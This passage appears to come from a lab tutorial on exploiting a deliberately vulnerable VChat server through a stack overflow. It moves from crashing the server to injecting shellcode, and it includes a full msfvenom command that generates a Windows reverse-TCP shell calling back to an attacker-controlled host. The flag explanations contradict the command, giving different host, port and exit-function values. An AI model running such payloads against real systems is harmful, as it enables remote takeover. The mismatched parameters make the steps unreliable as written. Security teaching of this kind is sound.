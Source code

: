       <img src="Images/I29.png" width=600>

Now that we have all the necessary parts for the creation of an exploit, we will add the shellcode to our payload and gain access to a reverse shell!
### Exploitation
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (a series of `A`s, `B`s and `C`s) all we have done with our exploits is crash the VChat server directly or indirectly after our jump instructions lead to an invalid operation. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. Now We will need to create a reverse shell we can include in the payload, this is a program that reaches out and makes a connection to the attacker's machine (or one they control) from target machine and provides a shell to the attacker. We can generate the shellcode with the following command.
	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 EXITFUNC=seh -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
      * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
	  * `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
	  * `-f`: The output format.
      	* `python`: Format for use in python scripts.
  	  * `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
      * `-a x86`: Specify the target architecture as `x86`
	  * `--platform windows`: Specify the target platform as Windows